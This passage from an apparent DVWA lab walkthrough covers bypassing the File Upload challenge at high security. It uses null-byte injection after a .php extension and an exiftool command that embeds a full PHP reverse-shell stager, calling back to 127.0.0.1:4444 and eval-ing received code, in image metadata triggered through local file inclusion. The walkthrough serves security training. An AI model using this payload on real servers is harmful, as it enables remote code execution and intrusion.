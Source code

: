 9. Then intercept the traffic while uploading the file and inject a [null byte](https://www.thehacker.recipes/web/inputs/null-byte-injection) (`%00`) after the `.php` extension before sending the request:

    ![](high_pre_null_byte.png)

    ![](high_null_byte.png)

    ![](high_shell_null.png)

10. If you try to call it by just visiting the given path it won't work:

    ![](high_revshell_null_fail.png)

11. However, if you remove everything after `.php` it should send a reverse shell back:

    ![](high_revshell_null_success.png)

### Injecting file's metadata and using LFI

> Source: [DVWA File Upload](https://spencerdodd.github.io/2017/03/05/dvwa_file_upload/).

1. We can download a low resolution image, such as [this](https://www.bestprintingonline.com/help_resources/Image/Ducky_Head_Web_Low-Res.jpg), add the `.php` extension, and inject our payload into the image's metadata:

    ```shell
    cp duck.jpg duck.php.jpg
    ```

    ```shell
    exiftool -DocumentName='/*<?php /**/ error_reporting(0); $ip = "127.0.0.1"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();' duck.jpg
        1 image files updated
    ```

    ![](metadata.png)

    ![](exif_image_browser.png)

2. Then we have to set the security level back to Low and call the image via LFI:

    ![](lfi_high.png)

## Security: Impossible
